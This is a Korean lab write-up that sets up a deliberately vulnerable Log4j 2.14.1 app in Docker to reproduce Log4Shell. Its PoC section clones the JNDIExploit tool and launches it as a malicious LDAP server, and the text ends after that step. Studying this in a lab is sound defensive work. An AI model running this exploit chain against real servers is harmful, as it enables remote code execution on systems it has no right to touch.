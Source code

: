 | 소프트웨어  | 버전                                             | 비고                                                |
| ----------- | ------------------------------------------------ | --------------------------------------------------- |
| Log4j       | 2.14.1 (```spring-boot-starter-log4j2```  2.6.1) |                                                     |
| JDK         | 1.8.0_181                                        | https://i5i5.tistory.com/266                        |
| ubuntu      | 20.04.02 LTS                                     |                                                     |
| JNDIExploit | 1.2                                              | https://github.com/black9/Log4shell_JNDIExploit.git |
| Git         | -                                                |                                                     |

<br>

1. git clone

   ```shell
   git clone https://github.com/christophetd/log4shell-vulnerable-app.git
   ```

<br>

2. docker를 통해 서버 구축

   ```shell
   docker build . -t vulnerable-app
   ```

   ![1](https://user-images.githubusercontent.com/89399749/163976960-0657ea1f-4003-47fa-b399-0c8809bb9852.png)


<br>   

3. docker 서버 실행

   ```shell
   docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
   ```

   ![2](https://user-images.githubusercontent.com/89399749/163976990-5da86afd-a98e-489a-99b9-ceced69dfcd1.png)


   ![3](https://user-images.githubusercontent.com/89399749/163977003-fd87a893-bf00-4cd9-90e7-50f5f1634b64.png)

<br>


## 2. PoC

1. JNDIExploit 1.2 설치

   JNDI 익스플로잇을 사용하여 악성 클래스 파일이 존재하는 LDAP 서버를 실행

   ```shell
   git clone https://github.com/black9/Log4shell_JNDIExploit.git
   unzip JNDIExploit.v1.2.zip
   java -jar JNDIExploit-1.2-SNAPSHOT.jar -i myip -p 8888
   ```

   ![4](https://user-images.githubusercontent.com/89399749/163977048-50bb1158-b5e3-4972-ae8a-889783ec2b16.png)
   